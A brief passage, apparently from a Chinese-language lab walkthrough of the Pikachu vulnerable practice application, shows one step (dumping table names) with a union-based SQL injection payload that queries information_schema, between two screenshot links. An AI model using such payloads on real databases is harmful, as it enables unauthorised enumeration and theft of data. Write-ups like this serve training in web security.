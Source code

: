 ![QQ图片20200305124300.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124300.png)

5.爆表名`-1' union select 1,(select table_name from information_schema.tables where table_schema='pikachu' limit 3,1),3#`

![QQ图片20200305124400.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124400.png)
